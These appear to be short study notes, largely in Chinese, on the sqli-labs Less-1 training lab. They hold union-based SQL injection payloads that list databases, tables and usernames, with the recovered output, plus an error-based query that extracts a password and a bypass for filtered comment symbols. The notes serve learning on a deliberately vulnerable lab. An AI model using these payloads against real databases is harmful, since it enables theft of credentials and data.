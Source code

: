 ## 参考 https://blog.csdn.net/whisper921/article/details/123264920
Level 1  2
http://192.168.1.25/sqli/Less-1/?id=-1' union SELECT 1,1,GROUP_CONCAT(schema_name) FROM information_schema.schemata--+ 拿到所有库名http://192.168.1.25/sqli/Less-1/?id=-1' union SELECT 1,group_concat(table_name),3 FROM information_schema.tables WHERE table_schema ="security"--+ 查询表名
http://192.168.1.25/sqli/Less-1/?id=-1' union  select 1,group_concat(username),3 from security.users--+ 获取表数据

security
uagents,referers,users,emails
name:id,username,password,USER,CURRENT_CONNECTIONS,TOTAL_CONNECTIONS,user_id,first_name,last_name,user,password,avatar,last_login,failed_login

security

验证是否采用数字注入 使用${id}' and 1=2 --+

基于报错注入 select count(*),concat((select password from sys_user limit 1,1), '---',floor(rand(0)*2) ) as a from student  GROUP BY a

SELECT * FROM test WHERE name=''union select 1,2,3'' 如果过滤了注释符号 可以使用 name=''union select 1,2,3'' war!! 不会报错 
SELECT * FROM test WHERE name='' UNION SELECT 1,1,GROUP_CONCAT(table_name) FROM information_schema.TABLES where table_schema=database() or '1'='' 爆表